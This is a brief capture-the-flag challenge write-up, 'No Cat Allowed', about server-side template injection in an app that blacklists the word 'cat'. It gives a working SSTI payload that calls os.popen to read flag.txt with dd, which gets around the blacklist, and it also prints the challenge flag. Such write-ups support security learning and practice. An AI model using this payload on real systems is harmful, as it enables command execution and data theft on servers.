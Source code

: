# No Cat Allowed

Author: k.eii

## Description

No Cat Allowed in Here

## Requirements

None

## Sources

-

## Tags

SSTI, Blacklist

## Exploit

- SSTI reguler
- Blacklisted on cat, etc.
use: dd if=flag.txt bs=1
``` {{ namespace.__init__.__globals__.os.popen('dd if=flag.txt bs=1').read() }} ```

## Flag

```
WRECKIT50{SSTI_w0nt_all0w_cat_1n_th1s_pl4ce}
```
## connection



## Severity
MEDIUM
